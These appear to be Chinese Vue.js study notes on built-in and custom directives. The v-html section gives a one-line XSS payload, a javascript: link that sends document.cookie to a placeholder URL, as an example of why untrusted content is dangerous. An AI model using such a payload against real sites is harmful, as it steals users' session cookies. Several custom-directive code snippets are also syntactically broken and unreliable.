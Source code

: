 0. 常见指令
   - v-bind 单向绑定解析表达式，简写:
   - v-model 双向数据绑定
   - v-for 遍历数组/对象/字符串
   - v-on 绑定事件监听，简写@
   - v-if 条件渲染，动态控制节点是否存在
   - v-else 条件渲染，动态控制节点是否存在
   - v-show 条件渲染，动态控制节点是否显示
1. v-text
   - 向其所在标签插入文本
   - 不如插值语法更灵活
   - 文本节点内容只会直接被替换
   - 不会解析 html
2. v-html
   - 涉及 Node.js 里面的 cookie 原理
     - cookie 本质是 json 字符串
     - cookie 由浏览器保存
     - cookie 不能跨浏览器读取
     - chrome 里面是 application-cookie，firefox 里面是存储-cookie
     - 可以在 console 里面获取 cookie
       - document.cookie
     - a 标签中 `href=javascript:location.href="网址?"+document.cookie`
     - 勾选 HttpOnly，除了 http 协议，都不能获取，也就是 js 无法获取
   - xss 安全性问题-冒充用户之手
   - 只能在可信的内容上使用 v-html，不要再用户提交的内容上使用 v-html
3. v-cloak
   - 写服务器？:server.js，命令 启动服务器`node server`，延时获取 Vue.js
   - js 阻塞？讲 html 结构的时候讲过
   - 不能出现闪现效果，script 写在 body 最后面容易出现
   - v-cloak 没有取值，Vue.js 导入之后，这个属性就会消失
   - 属性选择器
     ```css
     [v-cloak] {
       display: none;
     }
     ```
   - 解决的问题：网速慢时，让未经解析的模板不会跑到页面上去
4. v-once
   - v-once 没有取值
   - 只执行一次
   - 初次动态渲染，后续就是静态内容
   - 作用：性能优化
   - 不要和事件修饰符弄混：prevent|stop|once|capture|self|passive
5. v-pre
   - 跳过其所在节点的编译过程，插值语法、指令语法无效
   - 作用：给不需要这些语法的语句加快编译

## 自定义指令

1. Vue 实例中，和 data 同级的 directives 对象，里面是指令名
   - 格式一：key 和 value 对的形式，`指令名:{k1:v1,k2:v2}`，可以处理细节问题
   ```js
   new Vue(
      directives:{
         '指令名':{k1:v1,k2:v2}
      }
   )
   ```
   - 格式二：直接写成函数指令名:function(){}，简写为`指令名(element,binding){}`
   ```js
   new Vue(
      directives:{
         '指令名'(element,binding){}
      }
   ```